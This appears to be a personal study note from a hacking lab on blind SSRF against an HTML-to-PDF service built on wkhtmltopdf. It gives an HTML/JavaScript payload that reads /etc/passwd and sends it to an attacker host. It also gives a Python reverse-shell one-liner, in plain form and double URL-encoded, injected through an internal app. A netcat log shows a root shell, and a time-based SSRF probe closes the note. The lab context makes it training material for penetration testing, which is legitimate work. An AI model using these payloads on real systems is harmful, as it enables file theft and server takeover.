 ```yaml
---
id: 2_SSRF
created_date: 05/01/2023
updated_date: 05/01/2023
type: note
---
```


#  2_SSRF BLIND EXAMPLE
- **🏷️Tags** :  #01-2023 #bash #SSRF #web #javascript #blind #reverse_shell #payloads 

## 📝 Notes

on this example we have a Website where you can upload an html file and it convert it on a PDF format.

We can relate with BurpSuite with each request we are making we are getting the same response.  This is not meaning that the web site is not vulnerable to SSRF. 

we can try to upload an html file that look like this
```html
<!DOCTYPE html>
<html>
<body>
	<a>Hello World!</a>
	<img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
</body>
</html>
```

we are receiving a response on the netcat listener, By inspecting the request, we notice `wkhtmltopdf` in the User-Agent. If we browse [wkhtmltopdf's downloads webpage](https://wkhtmltopdf.org/downloads.html), the below statement catches our attention:

**Do not use wkhtmltopdf with any untrusted HTML – be sure to sanitize any user-supplied HTML/JS; otherwise, it can lead to the complete takeover of the server it is running on! Please read the project status for the gory details.**

Great, we can execute JavaScript in wkhtmltopdf! Let us leverage this functionality to read a local file by creating the following HTML document.

Code: html

```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

The `onload` event is triggered when the `readfile` request is successful and the response is received from the server. The event handler function is defined as an anonymous function that is assigned to the `onload` property of the `readfile` object.

The function begins by checking the `readyState` property of the `readfile` object. If the `readyState` is equal to 4, it means that the request has completed and the response is ready to be processed.

Inside the `if` statement, the function constructs a new URL using the `SERVICE IP` and `PORT` placeholders, which should be replaced with the IP address and port of the remote server. The `btoa` function is used to encode the contents of the local file (which are stored in the `response` property of the `readfile` object) as ASCII text. The encoded text is appended to the URL as a query parameter named `data`.

Finally, the function uses the `exfil` `XMLHttpRequest` object to send an HTTP GET request to the constructed URL. This causes the contents of the local file to be sent to the remote server as a query parameter in the request.

Overall, this code is responsible for sending the contents of the local file to the remote server as part of the SSRF attack. It does this by constructing a URL with the encoded contents of the file as a query parameter, and sending an HTTP GET request to the URL using the `exfil` `XMLHttpRequest` object.

the port 9090 is recommended.

### Bash reverse shell with python 

In the previous section, we exploited an internal application through SSRF and executed remote commands on the target server. The same internal application (`internal.app.local`) exists in the current scenario. Let us compromise the underlying server, but this time by creating an HTML document with a valid payload for exploiting the local application listening on internal.app.local.

We will use the following reverse shell payload (it is pretty easy to identify that Python is installed once you achieve remote code execution).

#### Bash Reverse Shell

```bash
export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Remember, we need to URL encode our payload. In this case, we need to encode it twice. The end result will be similar to the below.

#### URL Encoded Payload

Code: html

```html
export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527
```

#### HTML Payload
the html payload will look like this : 
```html
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```

Launch a netcat listener and upload the html file
```bash
nc -nvlp 9090

listening on [any] 9090 ...
Connection received on 10.129.201.238 33100

# whoami

whoami
root
```

In the Exercise we are building the html file with the one line payload in python ( be careful to encode it twice ), launch a netcat listener on the port 9090 ( same as the payload one liner) and upload the file on the web site. Magic you now have reverse shell. For completing the exercise juste submit the kernel release number 
```bash
uname -r
``` 


# Time-Based SSRF 

We can also determine the existence of an SSRF vulnerability by observing time differences in responses. This method is also helpful for discovering internal services.

Let us submit the following document to the PDF application of the previous section and observe the response time.

Code: html

```html
<html>
    <body>
        <b>Time-Based Blind SSRF</b>
        <img src="http://blah.nonexistent.com">
    </body>
</html>
```

![image](https://academy.hackthebox.com/storage/modules/145/img/blind_time.png)

We can see the service took 10 seconds to respond to the request. If we submit a valid URL inside the HTML document, it will take less time to respond. Remember that `internal.app.local` was a valid internal application (that we could access through SSRF in the previous section).

![image](https://academy.hackthebox.com/storage/modules/145/img/blind_time2.png)

In some situations, the application may fail immediately instead of taking more time to respond. For this reason, we need to observe the time differences between requests carefully.
## Questions/Thoughts


## 🔗 Links
 